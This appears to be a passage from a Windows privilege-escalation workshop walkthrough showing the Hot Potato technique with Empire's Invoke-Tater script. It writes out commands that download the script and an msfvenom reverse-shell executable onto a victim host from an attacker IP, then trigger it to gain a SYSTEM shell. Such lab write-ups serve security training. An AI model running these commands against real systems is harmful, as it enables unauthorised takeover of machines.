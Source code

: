 Hot potato is a vulnerability that deals with local spoofing of NBNS and WPAD.

There is a more complete explanation here: https://foxglovesecurity.com/2016/01/16/hot-potato/

So we want to get a new reverse shell as NT\Authority SYSTEM.

We are going to use the Invoke-Tater.ps1 powershell script that comes with Empire: https://github.com/BC-SECURITY/Empire

We copy that file locally into our LPE directory.

````
root@kali:~/LPEWorkshop# cp /root/Tools/Empire/data/module_source/privesc/Invoke-Tater.ps1 .
root@kali:~/LPEWorkshop# 
````

Then we transfer that file to our victim machine:

````
PS C:\Users\user\Downloads> IEX (New-Object Net.WebClient).DownloadFile('http://YOURIPHERE/Invoke-Tater.ps1', 'C:\Users\user\Downloads\Invoke-Tater.ps1')
PS C:\Users\user\Downloads> 
````

Now we import that module so that we can invoke the script:

````
PS C:\Users\user\Downloads> Import-Module C:\Users\user\Downloads\Invoke-Tater.ps1
````

Because my online Powershell encoder is currently down, we will have the exploit execute an msfvenom payload to give us a new reverse shell.

````
root@kali:~/LPEWorkshop# msfvenom -p windows/shell_reverse_tcp LPORT=1337 LHOST=YOURIPHERE -f exe > potato.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
root@kali:~/LPEWorkshop# 
````
Now we transfer the file to the victim.

````
PS C:\Users\user> IEX (New-Object Net.WebClient).DownloadFile('http://10.22.6.122/potato.exe', 'C:\Users\user\Downloads\potato.exe')
````

Then we invoke the command so that we can get elevation:
````
PS C:\Users\user\Downloads> Invoke-Tater -Trigger 1 -Command "C:\Users\user\Downloads\potato.exe"
````

### Due to the nature of this exploit, the time to complete and elevate is heavily variable, be patient and watch for your revshell. ###

And then in short order we get our reverse shell as NT\System:
